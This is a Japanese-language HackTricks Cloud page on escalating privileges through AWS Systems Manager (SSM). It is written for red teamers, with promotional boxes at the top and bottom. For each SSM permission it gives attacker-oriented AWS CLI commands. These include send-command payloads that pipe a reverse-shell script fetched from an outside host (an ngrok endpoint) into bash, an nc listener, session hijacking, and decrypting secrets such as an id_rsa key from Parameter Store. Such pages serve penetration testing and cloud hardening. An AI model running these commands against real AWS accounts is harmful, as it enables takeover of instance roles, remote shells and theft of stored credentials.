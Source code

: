 # AWS - SSM 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する
* **ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する

</details>

## SSM

SSMに関する詳細情報は次を参照してください:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** 権限を持つ攻撃者は、Amazon SSM Agentを実行しているインスタンスで**コマンドを実行**し、その中で実行されているIAMロールを**侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
以下の手法を使用してすでに侵害されたEC2インスタンス内で特権を昇格させる場合は、次のコマンドでローカルにrevシェルをキャプチャできます:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的影響:** SSM エージェントが実行されているインスタンスにアタッチされている EC2 IAM ロールへの直接的な昇格。

### `ssm:StartSession`

**`ssm:StartSession`** 権限を持つ攻撃者は、Amazon SSM エージェントが実行されているインスタンスで **SSH のようなセッションを開始** し、その中で実行されている IAM ロールを **侵害** できます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
セッションを開始するには、**SessionManagerPlugin** がインストールされている必要があります: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在的な影響:** 実行中のインスタンスにアタッチされているEC2 IAMロールへの直接権限昇格が可能です。SSMエージェントが実行されています。

#### ECSへの権限昇格

**ECSタスク**が**`ExecuteCommand`が有効**になって実行される場合、十分な権限を持つユーザーは`ecs execute-command`を使用してコンテナ内でコマンドを実行できます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは、"exec"コマンドを開始するデバイスとSSMセッションマネージャーを介してターゲットコンテナ間に安全なチャネルを作成することによって行われます（SSMセッションマネージャープラグインが必要です）。\
したがって、`ssm:StartSession`権限を持つユーザーは、そのオプションが有効になっているECSタスク内でシェルを取得できます。単に次のコマンドを実行します:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在的影響:** `ExecuteCommand` が有効になっている実行中のタスクにアタッチされた `ECS` IAM ロールへの直接的な権限昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 権限を持つ攻撃者は、Amazon SSM エージェントが実行されているインスタンスで **SSH のようなセッションを再開** し、**切断された** SSM セッション状態で **実行されているIAMロールを侵害** することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的影響:** SSM エージェントが実行され、セッションが切断されている場合に、実行中のインスタンスにアタッチされた EC2 IAM ロールへの直接的な権限昇格が発生する可能性があります。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

上記の権限を持つ攻撃者は、**SSM パラメータ**をリストアップし、**平文で読み取る**ことができます。これらのパラメータには、SSH キーまたは API キーなどの**機密情報**が頻繁に含まれています。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的影響:** パラメータ内の機密情報を見つける。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストアップし、それらから**機密情報**を見つけることができるかもしれません。
```
aws ssm list-commands
```
**潜在的影響:** コマンドライン内の機密情報を見つける。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信されたすべての**コマンド**をリストアップし、生成された出力を読むことができ、それに含まれる**機密情報**を見つける可能性があります。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的影響:** コマンドラインの出力の中に機密情報を見つける。

### Codebuild

Codebuildプロジェクト内に入るためにSSMを使用することもできます:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
